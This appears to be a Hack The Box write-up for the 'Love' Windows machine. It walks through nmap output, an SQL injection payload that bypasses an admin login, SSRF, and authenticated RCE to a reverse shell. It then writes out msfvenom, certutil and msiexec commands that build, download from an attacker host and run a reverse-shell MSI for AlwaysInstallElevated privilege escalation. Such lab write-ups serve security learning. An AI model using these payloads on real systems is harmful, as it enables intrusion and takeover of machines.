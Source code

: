 ```yaml
---
title: Love Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
| /: 
|_HTTP-TITLE: VOTING SYSTEM USING PHP |_HTTP-COOKIE-FLAGS: |: 
|_ httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_ http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
|_ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
|_Not valid before: 2021-01-18T14:00:16
|_Not valid after: 2022-01-18T14:00:16
445/tcp open microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5000/tcp open http Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp open unknown
7680/tcp open pando-pub?
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
| 311: 
|_ Message signing enabled but not required
| smb2-time: 
| date: 2023-02-07T19:22:11
|_ start_date: N/A
| smb-security-mode: 
| account_used: <blank>
| authentication_level: user
|_ challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
| OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
| OS CPE: cpe:/o:microsoft:windows_10::-
| Computer name: Love
| NetBIOS computer name: LOVE\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2023-02-07T11:22:12-08:00
|_clock-skew: mean: 3h01m33s, deviation: 4h37m09s, median: 21m31s
```

We can observe the domain `staging.love.htb`. 
Also note the presence of port 5000, which we cannot access at the moment.

## User Exploit

If we access the domain, we can see how we are facing a voting system created in PHP, so let's look for an exploit:

Luckily we found a python script that allows us to change the password to the admin user: `php/webapps/49843.txt.

Which says that if we put the following payload in the login window of /admin/: 

```
login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VKK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- - -
```

We bypass the login panel. And as we can see: if we intercept the request with burpsuite and enter the data, we get into the admin account.

However, for now we can't do much, so let's go to the other page.

If we click on home, we see that we have a URL scanner, in which if we put http://127.0.0.1 , we can make a SSRF, so let's take advantage of it.

We are going to try to see what is in the port 5000: And it gives us some credentials to enter the voting system as admin. However, this is of little use, since we have already bypassed it previously. 

If we look again at some exploit with searchsploit, we find a RCE but for when we are authenticated. As we are already authenticated, we are going to use it.

However, the exploit will not work at all. This is because the exploit is trying to access /voting_system. As this does not exist, let's remove it from the script.

And we would get the reverse shell. 

## Root Exploit

To find a way to escalate privileges, let's download WinPeas, pass it to the victim machine and run it:

And we see that AlwaysInstallElevated is installed and its value is 1.

We see that in hacktricks there is an article to escalate privileges using this vulnerability:
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

This will create a file called reverse.msi, which we will have to upload to the victim machine:

To do this we start a server with python on our local machine and run the following command on the victim machine:

```powershell
certutil.exe -f -urlcache -split http://10.10.14.46:8000/reverse.msi reverse.msi
```

Once we have it uploaded, we listen on the port that we have defined when creating the file with metasploit and we will run it: 
```PowerShell
msiexec /quiet /qn /i /reverse.msi 
```

And we will receive the shell as Admin and we will be able to read the root.txt flag.



